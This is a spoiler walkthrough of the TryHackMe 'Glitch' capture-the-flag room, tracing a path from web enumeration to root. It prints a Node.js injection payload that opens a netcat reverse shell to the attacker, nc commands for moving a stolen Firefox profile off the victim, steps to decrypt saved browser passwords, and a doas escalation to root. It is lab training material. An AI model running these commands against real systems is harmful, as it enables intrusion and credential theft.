# GLITCH CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **GLITCH** CTF challenge on [TryHackMe](https://tryhackme.com/room/glitch). 
---

after scanning we see open port: 80



we see a js function with /api/access



checking this folder we found token after decodeing from base64



we can change the cookie to our token to see other website

feroxbuster scan



there is nothing helphul in /secret

there is another location `/api/items`

if we use POST instead of GET we got a message



we can test the `POST /apt/items?FUZZ=test`



we found valid parameter `cmd` 



there is error coming from NodeJs



we can use this payload to gain reverse shell `require(%22child_process%22).exec(%22busybox%20nc%2010.14.X.X%204445%20-e%20/bin/bash%22)`



we got access as user 



and we can grab user flag



in `/home/user` there is hidden firefox folder which isnt common, we can use tar to make archive and the send to our machine to study

```
tar -czvf folder.tar.gz .firefox
```

now we can transfer the file, python server didnt seem to work so i used nc

```
$ nc -lvnp 1234 > folder.tar.gz       (attacker)
$ nc 10.14.X.X 1234 < folder.tar.gz   (victim)
```

now that we have firefox folder, i found a script to decrypt passwords from profiles `https://github.com/unode/firefox_decrypt/blob/main/firefox_decrypt.py` 

```
/usr/bin/python3 firefo_password.py /home/kamil/CTF/THM/glitch/.firefox
```


we found void password, checking if the same password will work for system



using linpeas we found SUID for doas so we can use



```
/usr/local/bin/doas -u root /bin/bash
```

we got root access and root flag 



# MACHINE PWNED
